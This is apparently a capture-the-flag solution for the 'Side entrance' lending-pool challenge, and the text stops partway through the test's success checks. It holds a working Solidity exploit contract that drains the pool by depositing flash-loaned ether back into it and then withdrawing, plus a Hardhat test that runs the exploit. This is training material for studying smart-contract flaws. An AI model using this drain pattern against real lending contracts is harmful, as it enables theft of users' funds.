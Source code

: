 ``` Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "./SideEntranceLenderPool.sol";

contract Exploit {
    using Address for address payable;

    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    }

    function exploit(SideEntranceLenderPool target) external {
        target.flashLoan(address(target).balance);
        target.withdraw();
        payable(msg.sender).sendValue(address(this).balance);
    }

    receive() external payable {}
}
```

``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { Contract } = require('ethers');

describe('[Challenge] Side entrance', function () {

    let deployer, attacker;

    const ETHER_IN_POOL = ethers.utils.parseEther('1000');
    // const Exploit = contract.fromArtifactName('Exploit');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();
        const exploit = await ethers.getContractFactory('Exploit', attacker);
        this.exploit = await exploit.deploy();

        const SideEntranceLenderPoolFactory = await ethers.getContractFactory('SideEntranceLenderPool', deployer);
        this.pool = await SideEntranceLenderPoolFactory.deploy();
        
        await this.pool.deposit({ value: ETHER_IN_POOL });

        this.attackerInitialEthBalance = await ethers.provider.getBalance(attacker.address);

        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.equal(ETHER_IN_POOL);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.exploit.connect(attacker).exploit(this.pool.address);

    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await ethers.provider.getBalance(this.pool.address)
```